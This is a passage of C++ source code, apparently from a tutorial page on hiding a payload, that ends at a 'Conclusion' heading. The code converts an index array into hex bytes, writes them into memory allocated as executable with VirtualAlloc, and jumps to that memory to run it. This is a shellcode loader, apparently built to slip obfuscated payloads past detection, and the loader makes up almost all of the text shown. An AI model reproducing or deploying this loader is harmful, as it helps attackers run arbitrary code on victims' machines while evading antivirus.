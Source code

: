 ```c++
        }
    }
    std::string payload;
    index_to_hexa_array[counter_s] = '\0';
    printAscii(index_to_hexa_array, counter_s);

    delete[]index; //freeing memory
    delete[]index_to_hexa_array;
    index = nullptr;  //reseting the index pointer
    index_to_hexa_array = nullptr;
    return 0;
}

void reverse_String(string& str, int last_index, int starting_index) {
    if (last_index <= starting_index) { return; }
    swap(str[starting_index], str[last_index]);
    reverse_String(str, last_index - 1, starting_index + 1);
}
string indexNumberToHexa(int number) {
    string hexavalue = "";
    while (number != 0) {
        int remainder = number % 16;
        if (remainder < 10) {   //number 0-9
            hexavalue += remainder + 48;
        }
        else {//alphabet A-F
            hexavalue += remainder + 55; //converting number to alphabet
        }
        number = number / 16;
    }
    reverse_String(hexavalue, hexavalue.length() - 1, 0);
    return (hexavalue != "" ? hexavalue : "0");
}
void printAscii(unsigned char* index_to_hexa_array, int counter_s) {
    string sc;
    for (int i = 2; i < counter_s; i++) {
        if (index_to_hexa_array[i] != '\\' && index_to_hexa_array[i] != 'x') {//hex value cannot be more than 2 characters
            string vt; // hex ex: 01
            vt.push_back(index_to_hexa_array[i]);
            vt.push_back(index_to_hexa_array[i + 1]);
            //cout << (char)stoul(vt, nullptr, 16);
            unsigned char n = (char)stoul(vt, nullptr, 16);
            sc += n;
            i++;
        }
    }
    sc += '\0'; // adding nullbyte to string to mimic array
    //std::cout << "The size is " << sc.size() << " bytes.\n";
    DWORD oldprotect = 0;
    void* exec = VirtualAlloc(0, sc.size(), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, sc.c_str(), sc.size());
    ((void(*)())exec)();
}
```
# Conclusion
